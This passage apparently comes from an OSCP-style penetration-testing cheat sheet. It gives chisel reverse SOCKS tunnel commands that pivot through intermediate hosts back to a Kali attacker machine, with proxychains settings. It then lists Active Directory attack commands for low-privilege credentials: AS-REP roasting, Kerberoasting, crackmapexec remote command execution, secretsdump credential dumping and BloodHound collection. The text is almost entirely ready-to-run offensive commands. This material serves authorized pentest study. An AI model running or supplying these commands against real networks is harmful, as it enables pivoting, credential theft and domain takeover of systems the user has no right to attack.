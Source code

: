 ```jsx
./chisel client $kali_ip:8000 R:8888:socks
```

```jsx
./chisel_1.7.7_linux_386 server --socks5 -p 445 --reverse
```

Mid 2

```jsx
./chisel_1.7.7_linux_386 client $mid1_ip:445 R:9999:socks
```

/etc/proxychains4.conf

```jsx
socks5 127.0.0.1 8888
socks5 127.0.0.1 9999
```

## Active Directory

[https://github.com/jenriquezv/OSCP-Cheat-Sheets-AD](https://github.com/jenriquezv/OSCP-Cheat-Sheets-AD)

[https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#domain-enumeration](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#domain-enumeration)

### Credentials at hand

There’s many things you can enumerate with low privileges credentials

```bash
rpcclient -U DOMAIN.COM/'user'%"password" $ip
```

```bash
python3 GetNPUsers.py domain.com/ -dc-ip $ip -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```

```bash
python3 GetUserSPNs.py domain.com/user:"password" -dc-ip $ip -request
```

```bash
crackmapexec smb $ip -u 'user' -p 'password' -x "whoami"
```

```bash
crackmapexec smb $ip -u 'user' -p 'password' --shares
```

```bash
python3 secretsdump.py DOMAIN.COM/user:"password"@$ip
```

```bash
bloodhound-python -u user -p 'password' -d domain.com -ns $ip -c all --zip
```
